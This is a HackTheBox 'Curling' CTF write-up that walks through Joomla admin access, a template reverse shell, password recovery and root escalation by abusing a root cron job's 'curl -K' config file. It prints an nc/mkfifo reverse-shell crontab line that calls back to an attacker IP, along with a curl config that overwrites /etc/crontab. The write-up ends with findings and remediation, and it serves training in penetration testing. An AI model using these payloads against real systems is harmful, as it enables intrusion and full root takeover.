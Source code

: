 # CURLING

![Curling Info Card](curling_infocard.png)

This report walks through the compromise of the **Curling** machine on HackTheBox. Through web enumeration, Joomla admin access, reverse shell execution, and privilege escalation via file manipulation and cron jobs, we achieved full system compromise on this Linux target.

## Reconnaissance and Enumeration

An initial Nmap scan revealed SSH and HTTP services:

```sh
❯ sudo nmap -sC -sV -T4 -oA Scans/nmap/curling 10.129.201.151
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
```

The website on port 80 was running **Joomla**:

![Curling Homepage](curling_homepage.png)

Viewing the source of the homepage revealed a hidden file:

```html
<!-- secret.txt -->
```

Navigating to `/secret.txt` returned a Base64 string:

![Curling Secret](curling_secret.png)

Decoded to:

```sh
❯ echo -n "Q3VybGluZzIwMTgh" | base64 -d
Curling2018!
```

A blog post authored by **Floris** suggested a potential username:

![Floris Post](curling_florispost.png)

## Joomla Admin Access

Fuzzing directories revealed a login portal at `/administrator`:

![Curling Admin Page](curling_adminpage.png)

Credentials `Floris:Curling2018!` granted access. Although uploading a PHP reverse shell was blocked, disabling the upload restriction setting didn’t help.

Instead, we modified the **Protostar** template’s PHP files to include a reverse shell, then previewed the template to trigger execution:

![Curling Template](curling_template.png)

Reverse shell received:

```sh
❯ nc -lvnp 4444
connect to [10.10.14.89] from [10.129.201.151]
uid=33(www-data) gid=33(www-data)
```

## Password Discovery and SSH Access

Inside the web root, **configuration.php** exposed database credentials:

```php
public $user = 'floris';
public $password = 'mYsQ!P4ssw0rd$yea!';
```

SSH login using this password failed. However, a **password_backup** file was discovered in Floris' home directory containing compressed data.

### Multi-Stage Decompression

1. Data started with BZh9 (bzip2).
2. Decompressed to a gzip archive.
3. Extracted a bzip2 file inside.
4. Extracted a tar archive containing **password.txt**.

Final password:

```txt
5d<wdCbdZu)|hChXll
```

SSH login with `floris:5d<wdCbdZu)|hChXll` succeeded:

```sh
floris@curling:~$ cat user.txt
281d2bc862797f1c4dbe827fe3cda065
```

## Privilege Escalation

Inside **admin-area/**, two files were owned by root but writable by Floris:

```sh
-rw-rw---- 1 root floris input
-rw-rw---- 1 root floris report
```

Monitoring with **pspy** showed root running:

```sh
curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```

> **Did You Know? — Curl Config File Exploits**
>
> The `-K` option in `curl` reads from a config file. If the `output` value is set to a **pipe command**, curl will execute it. This allows for command injection if the file is writable.

Initial attempt to execute a reverse shell using `output = "|/bin/bash..."` failed, as the process ran as `www-data`. Instead, we escalated by overwriting **/etc/crontab**.

### Crontab Replacement Attack

A malicious crontab was hosted locally:

```sh
* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.89 4444 >/tmp/f
```

**Input file** modified:

```sh
url = "http://10.10.14.89/crontab"
output = "/etc/crontab"
```

Root fetched and overwrote crontab:

```sh
10.129.201.151 - - [23/Mar/2025 14:44:03] "GET /crontab HTTP/1.1" 200 -
```

One minute later, I gained a reverse shell as root:

```sh
uid=0(root) gid=0(root)
> cat /root/root.txt
692f2756895c539d86769f33e2223a51
```

![Curling Completed](curling_completed.png)

## Findings and Remediation

### Findings

- **Base64 Leakage**: Credentials exposed via publicly accessible `secret.txt`.
- **Joomla Misconfiguration**: Admin portal exposed with weak credentials.
- **Source Disclosure**: `configuration.php` leaked sensitive info.
- **Insecure File Permissions**: Root-owned files writable by Floris.
- **Curl Config Exploitation**: Used to overwrite crontab and escalate.

### Remediation

- Restrict access to sensitive files and sanitize public source.
- Harden Joomla configurations; enforce strong credentials.
- Use **principle of least privilege** for file ownership and permissions.
- Monitor for misuse of command-line tools with config files.

## Lessons Learned

Curling showcases a chain of vulnerabilities: public credential disclosure, misconfigured CMS, and improper file permissions. Even indirect execution vectors, such as `curl -K`, can become powerful escalation paths when paired with poor access controls.

## Resources

- [HackTheBox - Curling CTF](https://app.hackthebox.com/machines/160)
- [Joomla Security Best Practices](https://docs.joomla.org/Security_Checklist)
- [curl Config File Documentation](https://everything.curl.dev/cmdline/configfile.html)

---

[⬅ Back to Home](/CTF-Reports/)
